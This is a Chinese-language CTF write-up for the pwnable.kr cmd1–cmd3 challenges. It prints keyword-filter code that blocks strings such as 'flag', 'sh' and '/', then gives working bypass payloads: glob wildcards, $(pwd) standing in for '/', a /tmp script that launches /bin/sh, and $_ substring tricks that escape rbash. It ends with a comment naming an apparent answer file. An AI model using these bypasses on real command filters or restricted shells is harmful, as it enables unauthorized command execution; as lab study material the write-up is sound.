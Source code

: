 # 处理命令行过滤(Pwnable.kr cmd 系列)

## cmd1
**题目规定需要绝对路径**，简化的源代码如下
```cpp
bool filter(char* cmd) {
    // strstr()，0 表示没有找到子字符串
    retrun strstr(cmd, "flag") || strstr(cmd, "sh") || strstr(cmd, "tmp");
}
int main(int argc, char* argv[], char** envp){
        if( filter(argv[1]) ) return 0;
        system( argv[1] );
        return 0;
}
```
可以看到，如果单纯地使用`/bin/sh`会失败，使用`/bin/cat flag`也会失败，所以怎么办呢？

解决方法: `/bin/cat fla*` 或者 `/bin/cat 'f'lag`

## cmd2
**题目规定需要绝对路径**，简化的源代码如下
```cpp
int filter(char* cmd){
    return strstr(cmd, "=")!=0 || strstr(cmd, "PATH")!=0 || strstr(cmd, "export")!=0
            || strstr(cmd, "/") || strstr(cmd, "`")!=0 || strstr(cmd, "flag")!=0;
}

int main(int argc, char* argv[], char** envp){
    if( filter(argv[1]) ) return 0;
    system( argv[1] );
    return 0;
}
```
首先一个问题：需要使用绝对路径，那么`cd` 和 `pwd`需要绝对路径吗？

答案：不需要，因为`pwd`是`shell built-in command`. 使用`which pwd`，输出就是`shell built-in command`。

现在坏了，直接不能输入`/`了，这可怎么办？解决办法如下

1. 使用`pwd`命令，执行`./cmd2 'cd .. && pwd'`，结果为`/home`；执行`./cmd2 'cd .. && cd .. && pwd'`，结果为`/`，此时我们就可以用`$(pwd)`来代替`/`了。

    所以最后我们的输入为`./cmd2 'cd .. && cd .. && $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'`

2. 因为限制了`bin`，`flag`这些字段，所以我们新建文件`/tmp/cmd2/allen`，里面存`/bin/sh`，这样我们只要把那个文件改成可执行，然后执行这个文件即可，**通过文件来绕过命令行过滤**。

    所以最后我们的输入为`/home/cmd2/cmd2 '$(pwd)tmp$(pwd)allen'`，其中当前目录为`/`

## cmd3
源代码是很长的 python 文件，这里就简单说一下。

首先是文件存储情况，有两个文件夹，`flagbox`和`jail`，`jail`中提供三个执行文件: `ls`, `cat`, `id`，`flagbox`中在程序运行是会存储一个随机命名文件，如`KG3TSCVOPHSPINJD1N3MOD3T637CLX5L`，程序运行时会告诉我们，然后我们要输出这个文件里的内容，然后会得到flag。

要求只可以使用以下字符：`()[]{}<>#$%,?;_`。不要求绝对路径，但是在`rbash`这个 shell 下执行的，关于这个 shell，可以参考[1]，比较重要的一点，是不允许执行带有`/`的命令，但是除了命令是可以的。也即是说`/bin/ls`不可以，但是`cat test/test.txt`是可以的！

乍一看这道题，这怎么做嘛，就这几个破字符，连字母数字都不能输入，这怎么搞？所以，要慢慢来。下面都是利用 shell 的特性。

1. 第一要解决`cat`。<br>

**知识点一：shell 中 `?` 匹配**。比如当前文件夹有`test.sh`，如果我使用`???????`，那么 shell 就会匹配到`test.sh`，自动将我们输入转为匹配到的。本题目`cat`存放在`jail`目录中，所以我们使用`????/???`就可以匹配到了(有问题往下看)。

**知识点二：shell 中 `$_` 变量**。上一步很好, 但 `rbash` 不允许使用`/`，所以命令会失败。但是 SHELL 有变量 `$_` 表示上一次的 `argv[-1]`, 所以我们仍然得到了变量`$_ = jail/cat`。

**知识点三：shell 如何进行截断赋值**。现在就是怎么处理这个变量, 使用`____=${_#?????}`，这样`$____`变量就会丢弃`$_`变量的前面5个字符(因为`?`有5个)，所以经过这样的赋值我们得到了变量`$____ = cat`。

2. 第二要解决空格。<br>

**知识点四：shell 中有好几种方式可以代替空格**。参考[2]，现在我们可以用`<>`或者`>`来代替空格。但是，对于`rbash`，应该只能使用`<`而不能使用`<>`！

### 答案一 
刚开始告诉我们存储密码的文件: `flag/xxx(32bits)`, 此时我们新建 `/tmp/__/1` 文件, 其中内容即为 `flag/xxx(32bits)`.
- `????/???`<br>
匹配到 `jail/cat`, 即 `_` 为 `jail/cat`.
- `__=${_#?????}`<br>
让 `__` 等于 `cat`, 由于 `PATH=jail`, 所以执行 `cat` 是可以的.
- `$($__</???/__/?)`<br>
括号里面相当于 `cat /tmp/__/1`, 里面是 `flag/xxxx`, 最终相当于我们执行了 `flag/xxxx` 命令.
- `$__<$_`<br>
由于上一条执行了 `flag/xxx` 命令, 所以 `$_` 等于 `flag/xxx`, 所以最终相当于 `cat flag/xxxx`.

### 答案二
唯一的不同点是第三条, 干脆直接输入 `? * 7 / ? * 32`, 我在这里用 `* 7` 缩写, 实际情况要全部写上, 最后同样会匹配到文件 `flagbox/xxx(32bits)`.

### 重要说明
上面的两个答案, 一定要一起执行, 即最终输入为 `cmd1; cmd2; cmd3; cmd4`, 分开写是错的.

> **为什么是错的?**
> 
> 以第一句和第二句为例. 第一句 `????/???` 想匹配 `jail/cat`, 此时命令行最后会输出错误信息: `/bin/rbash: line 1: jail/cat: ...`.
>
> 如果单独写这一句后回车, 此时的 `$_` 为 `/bin/rbash`!!! 但如果不是单独一句, 比如 `cmd1; cmd2`, 在执行 `cmd2` 的时候, `$_` 为 `jail/cat`!!!
>
> 仔细体会这之间的差异, 原因就是由于回车后, `rbash` 发现错误后相当于执行了 `rbash` 命令, 导致 `$_` 成了 `/bin/rbash`.

## 总结
- 有一些命令是自带命令，这些并不是执行 `/bin` 目录中的可执行文件, 比如`pwd`，不确定的话可以使用`which`命令查看一下

- 以例子来谈，使用`fla*`来解决 `flag` 的限制，使用`$(pwd)`来解决 `/` 的限制

- SHELL 特殊用法: `?`, `$_`, `<`, `<>`

- `cmd3` 可以好好看看, 以及一定要注意 `$_` 可能会被最后的报警产生意外的错误

## 参考
[1] https://xz.aliyun.com/t/7642

[2] https://www.cnblogs.com/sevck/p/6072721.html

<!-- flagbox/EIFBJAJKNULDNVO8T2RCCWCME0SB1V1O -->
